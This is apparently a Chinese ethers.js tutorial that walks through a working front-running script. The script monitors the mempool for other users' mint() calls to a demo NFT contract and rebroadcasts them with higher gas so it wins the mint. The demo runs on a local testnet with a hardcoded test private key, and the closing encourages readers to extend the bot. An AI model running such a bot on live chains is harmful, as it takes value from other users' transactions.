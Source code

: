 ```yaml
---
title: 23. 抢先交易脚本
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTFEthers)

---

这一讲，我们将介抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。
    ```js
    import { ethers } from "ethers";

    // 1. 创建provider
    var url = "http://127.0.0.1:8545";
    const provider = new ethers.WebSocketProvider(url);
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));
    ```

2. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于解码交易。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。
    ```js
    // 2. 创建interface对象，用于解码交易详情。
    const iface = new ethers.Interface([
        "function mint() external",
    ])
    ```

3. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    // 3. 创建钱包，用于发送抢跑交易
    const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

4. 我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）。然后，再打印筛选出的交易哈希。

    ```js
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getFunction("mint").selector) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);
    ```
    ![](./img/23-2.png)

5. 打印筛选出的未决交易详情

    ```js
    // 打印原始交易
    console.log("raw transaction")
    console.log(tx);
    ```   
    ![](./img/23-3.png)

6. 打印解码后的交易详情，可以看到该交易调用的是`mint()`函数。 

    ```js
    // 打印交易解码后结果
    let parsedTx = iface.parseTransaction(tx)
    console.log("pending交易详情解码：")
    console.log(parsedTx);
    ```
    ![](./img/23-4.png)

7. 构建抢跑交易`txFrontrun`，原交易的目标地址`to`，发送以太坊数额`value`和发送数据`data`保持不变，然后将`gas`拉高：`maxPriorityFeePerGas` 和 `maxFeePerGas` 改为原先的 1.2 倍，`gasLimit`最高设为原先的 2 倍。然后通过 `sendTransaction()` 将交易发送到链上，完成抢跑！

    ```js
    // 构建抢跑tx
    const txFrontrun = {
        to: tx.to,
        value: tx.value,
        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
        maxFeePerGas: tx.maxFeePerGas * 1.2,
        gasLimit: tx.gasLimit * 2,
        data: tx.data
    }
    // 发送抢跑交易
    var txResponse = await wallet.sendTransaction(txFrontrun)
    console.log(`正在frontrun交易`)
    await txResponse.wait()
    console.log(`frontrun 交易成功`)   
    ```

    ![](./img/23-5.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！